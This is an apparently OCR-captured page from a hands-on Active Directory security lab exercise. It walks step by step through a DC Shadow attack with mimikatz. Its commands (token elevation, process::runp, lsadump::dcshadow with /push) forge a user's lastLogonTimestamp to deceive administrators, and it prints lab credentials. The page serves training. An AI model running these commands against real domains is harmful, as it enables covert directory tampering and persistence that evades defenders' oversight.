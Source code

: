 
## DC Shadow with mimiaktz

Running as SYSTEM

```powershell
privilege::debug 
token::elevate 
lsadump::dcshadow /stack /object:CN=Zoombie,DC=contoso,DC=com... 
... 
lsadump::dcshadow
```

Running as domain admin

```powershell
lsadump::dcshadow /push
```


(ING) LAB 5 - Domination and persistence

3 Hr 17 Min Remaining

Instructions Resources Help  100%

## Exercise 3 - Modify objects using the DC Shadow attack

There is an attribute on user and computer account that you can use to determine when the last time the user was used. This attribute has its own logic of update. It only updates with the current time of logon if the last time it was updated was more than 14 days ago. See the following 🔗[“The LastLogonTimeStamp Attribute” – “What it was designed for and how it works”](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/8220-the-lastlogontimestamp-attribute-8221-8211-8220-what-it-was/ba-p/396204)

Your goal in this exercise will be to set an arbitrary value for Katrina's account to fool the admin into thinking the account hasn't been used in a while.

1. Log on to **[CLI01](https://labclient.labondemand.com/Instructions/6e093b8a-2f3b-4901-9748-814f5963167c?rc=10#)**. Use the following credentials:
    
    |||
    |---|---|
    |Username|`CONTOSO\red`|
    |Password|`NeverTrustAny1!`|
    
2. At this point, you should have two windows opened, a Windows Terminal prompt and a red prompt. If you have closed them re-open them by right clicking on the Start menu ![11menu.png](https://labondemand.blob.core.windows.net/content/lab127864/11menu.png) and clicking on **Windows Terminal (Admin)**. In the **Windows Terminal** window, run the following: `runas /user:CONTOSO\katrina.mendoza.adm cmd.exe` and use the following password `NeverTrustAny1!`. A new command prompt should have popped up called **cmd.exe (running as CONTOSO\katrina.mendoza.adm)**. To make it easier to keep track, we'll rename the window and change the color. Run the following in that prompt `title Katrina's console & color 4F`.
    
3. In the **Terminal console**, make sure the current directory is where Mimikayz is by running `Set-Location \Tools\mimikatz` then run `.\mimikatz.exe`. In the mimikatz prompt, run the following to create a new instance of mimikatz running in the local system security context: `process::runp`.
    
    At this point you have three prompts.
    
    **1** The Windows Terminal console
    
    **2** The red prompt
    
    **3** The mikikatz prompt running as local system (you can easily spot it with its kiwi icon in the system tray ![KIWI.png](https://labondemand.blob.core.windows.net/content/lab127864/KIWI.png))
    
4. In the mimikatz prompt (with the kiwi icon), run the following: `lsadump::dcshadow /object:katrina.mendoza.adm /attribute:lastLogonTimestamp /value:123567890123456789`
    
    You might be asked to agree to the following prompt to allow incoming connections to mimikatz. ![FW.png](https://labondemand.blob.core.windows.net/content/lab127864/FW.png) Click **Allow access**.
    
    It starts a fake server and is waiting for a legit DC to replicate: ![WAIT.png](https://labondemand.blob.core.windows.net/content/lab127864/WAIT.png)
    
5. Switch to the red prompt, make sure you are in the right directory with `cd \Tools\mimikatz` then execute `mimikatz.exe`.
    
6. Now to force a legitimate DC to replicate with our fake server, run the following in the red prompt: `lsadump::dcshadow /push`
    
    Once the replication took place, the fake server will stop by itself: ![STOP.png](https://labondemand.blob.core.windows.net/content/lab127864/STOP.png)
    
    Let's check what Katrina's account look like.
    
7. Switch back to the **Terminal console**, if you are still in the mimikatz instance there, run `exit`
    
    ![EXIT.png](https://labondemand.blob.core.windows.net/content/lab127864/EXIT.png)
    
8. Now run the following: `Get-ADUser -Identity katrina.mendoza.adm -Properties lastLogonTimeStamp,lastLogonDate -Server DC01.contoso.com`
    
    📝 When is the "new" last logon date for that account?
    
    📝 What would be the mimikatz DC Shadow command to set the description attribute of the account with the value "I WAS HERE"?
    

Here you go. If **Mister Blue** is doing some reporting on accounts being used recetnly, this one will probably not show up :)

❓ What is the difference between **lastLogonTimestamp** and **LastLogonDate** in the PowerShell output? **Click here to see the answer**.

60% Tasks Complete

PreviousNext: Exercise 4 - Perform...

Live Chat